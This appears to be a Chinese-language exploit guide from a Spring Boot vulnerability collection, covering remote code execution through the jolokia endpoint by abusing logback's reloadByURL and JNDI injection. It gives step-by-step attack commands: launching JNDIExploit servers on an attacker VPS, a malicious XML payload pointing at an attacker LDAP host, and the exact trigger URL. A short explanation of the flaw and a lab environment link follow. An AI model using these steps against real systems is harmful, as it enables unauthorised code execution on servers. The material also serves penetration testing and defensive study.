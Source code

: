 # jolokia logback JNDI RCE

## 利用条件：

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）
- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过

## 利用方法：

### 步骤一：查看已存在的 MBeans
访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词。

### 步骤二：架设恶意ldap服务
工具：[JNDIExploit-1.4-SNAPSHOT.jar](./file/JNDIExploit.v1.4.zip)
地址：https://github.com/WhiteHSBG/JNDIExploit
```bash
java -jar -jar JNDIExploit.jar -i VPS地址
```
工具：[JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](./file/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) 
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "执行命令" -A VPS地址 
```

### 步骤三：托管xml文件
example.xml:  
```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```
```shell
# 在xml文件目录开启http服务
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

### 步骤三：从外部 URL 地址加载日志配置文件
替换实际的 VPS地址 访问 URL 触发漏洞：

```
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/vps地址!/example.xml
```
> ⚠️ 如果目标成功请求了example.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

## 漏洞原理：

1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意  JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

## 漏洞分析：

​	[spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

## 漏洞环境：

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```
http://127.0.0.1:9094/env
```